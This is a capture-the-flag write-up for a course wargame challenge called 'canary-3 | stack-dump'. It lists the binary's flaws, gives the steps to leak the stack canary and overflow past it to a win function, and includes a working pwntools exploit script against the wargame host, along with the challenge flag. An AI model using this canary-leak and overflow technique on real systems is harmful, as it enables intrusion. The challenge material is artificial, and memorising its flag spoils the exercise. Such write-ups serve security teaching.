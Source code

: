 canary-3 | stack-dump
===========================

Flag: `6447{31c83bef-e49b-4104-bdeb-bae408e8ef84}`

General overview of problems faced
-------------------------------------
N/A

List of vulnerabilities
--------------------
1. The program lists information about a memory pointer on the stack at esp+35
2. Arbitrary memory can be printed use the program by inputing the address to where you want to read. This allows a user to leverage the previous vulnerability in order to calculate the address pointer to the canary and read the canary.
3. The program uses a fixed buffer with gets to take input when requesting "option a". This means a user can overflow the buffer and overflow the return address of the main function.
4. It is also possible to exploit the "len input" which is then converted into an "int" and then passed as argument to the fread function. No length check is made, therefore the user could request 10000 bytes of input and it would allow you to 'fread' 10000 bytes of input into a fixed a size buffer...


Steps to exploit
------------------
1. Use the given address to calculate the canary address. The given pointer is at esp+35 and the canary is at esp+140, therefore we need to add 105 to the given address.
2. Input the calculated canary address. (option "a" in the main menu of the program)
3. Get the program to print out the value at the canary address (option "b" in the main menu)
4. Save the 4 bytes of canary
5. Select option "a" and input 96 bytes of data, then input the canary value, add 12 bytes of offset data and then input the address of the win function in little endian format
6. Select option "q" from the main menu.
7. Congratz you now have a shell

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

NOP_OPERATOR = '\x90'

def main():
    r = remote("wargames.6447.sec.edu.au", 6003)

    r.recvuntil("a useful stack pointer ")
    base_pointer = int(r.recvline().strip(), 16)
    canary_pointer = base_pointer + 105

    r.sendline('a')
    r.sendline('4')
    r.sendline(p32(canary_pointer))

    r.recvrepeat(0.2)

    r.sendline('b')
    canary = r.recvline().strip()[22:26]
    print canary


    buf_len = 140-44 # 140 (esp+140 = canary || esp+44 = start of "len" buffer)
    win = 0x80486cd
    offset = 12 # 0xffffd5bc - 0xffffd5cc = -16 (12 offset to ret + 4 canary)

    r.sendline('a')
    r.sendline(
        NOP_OPERATOR * buf_len
        + str(canary)
        + NOP_OPERATOR * offset
        + p32(win)
    )

    r.sendline('d') # quit the program and trigger the jump

    r.interactive()

if __name__ == '__main__':
    main()
```


